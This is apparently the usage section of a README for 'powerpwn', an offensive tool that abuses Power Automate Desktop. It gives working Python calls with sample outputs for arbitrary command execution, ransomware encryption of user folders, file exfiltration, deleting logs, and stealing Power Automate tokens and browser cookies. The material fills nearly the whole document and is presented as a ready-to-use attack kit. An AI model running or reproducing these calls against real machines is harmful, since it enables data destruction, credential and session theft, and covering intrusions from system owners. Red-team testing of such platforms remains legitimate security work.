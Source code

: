 ### Usage

```python
from powerpwn.cli import PowerPwn
POST_URL = ""
pp=PowerPwn(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").CodeExec
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").CodeExec
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").CodeExec

# commandline
pp.exec_cmd("echo \"hello word\"").CodeExec
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").Ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").Exfil
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").Exfil
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().Cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().StealPowerAutomateToken
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").StealCookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

### Troubleshoot

### SessionExistsForTheUserWhenUnattended

Got `success=False` with `code=SessionExistsForTheUserWhenUnattended` in `unattendedError`?

Got to Machines -> locate the machine -> three vertical dots -> Edit details -> Reuse sessions for unattended runs.
See [reuse sessions for unattended runs](https://go.microsoft.com/fwlink/?linkid=2187511)
